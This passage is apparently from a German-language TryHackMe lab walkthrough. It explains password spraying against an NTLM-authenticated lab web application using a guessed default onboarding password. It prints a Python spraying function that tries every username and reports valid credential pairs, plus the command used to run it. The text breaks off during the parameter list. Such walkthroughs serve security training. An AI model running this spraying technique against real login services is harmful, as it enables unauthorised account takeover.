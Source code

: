 Du hast eine Liste von Benutzernamen erhalten, die während einer Red-Team-OSINT-Übung entdeckt wurden. Die OSINT-Übung hat auch das anfängliche Onboarding-Passwort der Organisation angegeben, das "Changeme123" zu sein scheint. Obwohl Benutzer ihr anfängliches Passwort immer ändern sollten, wissen wir, dass Benutzer dies oft vergessen. Wir werden ein benutzerdefiniertes Skript verwenden, um einen Password-Spraying-Angriff gegen die Webanwendung durchzuführen, die unter dieser URL gehostet wird: http://ntlmauth.za.tryhackme.com.

Beim Navigieren zur URL sehen wir, dass sie uns nach Windows-Authentifizierungsanmeldeinformationen fragt:

Hinweis: Das Windows-Authentifizierungs-Plugin von Firefox ist äußerst anfällig für Fehler. Wenn du Anmeldedaten manuell testen möchtest, wird Chrome empfohlen.

Wir könnten Tools wie Hydra verwenden, um bei dem Password-Spraying-Angriff zu helfen. Es ist jedoch oft besser, diese Art von Angriffen selbst zu skripten, was dir mehr Kontrolle über den Prozess ermöglicht. Ein Basisskript in Python wurde in den Aufgabendateien bereitgestellt, das für den Password-Spraying-Angriff verwendet werden kann. Die folgende Funktion ist die Hauptkomponente des Skripts:

```python
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

Diese Funktion nimmt unser vorgeschlagenes Passwort und die URL, die wir anvisieren, als Eingabe und versucht, sich mit jedem Benutzernamen in der Textdatei bei der URL anzumelden. Durch Überwachung der Unterschiede in den HTTP-Antwortcodes von der Anwendung können wir feststellen, ob das Anmeldeinformationenpaar gültig ist oder nicht. Wenn das Anmeldeinformationenpaar gültig ist, antwortet die Anwendung mit einem HTTP-Code 200 (OK). Wenn das Paar ungültig ist, gibt die Anwendung einen HTTP-Code 401 (Unauthorised) zurück.

### Password-Spraying

Wir können das Skript mit dem folgenden Befehl ausführen:

>python ntlm_passwordspray.py -u <Benutzerdatei> -f <FQDN> -p <Passwort> -a <Angriffs-URL>

Wir geben für jeden der Parameter folgende Werte an:

    - <Benutzerdatei> - Textdatei mit unseren Benutzernamen - "usernames.txt"
    
    - <FQDN> - Vollqualifizierter Domänenname, der mit der Organisation verbunden ist, die wir angreifen - "za.tryhackme.com"
    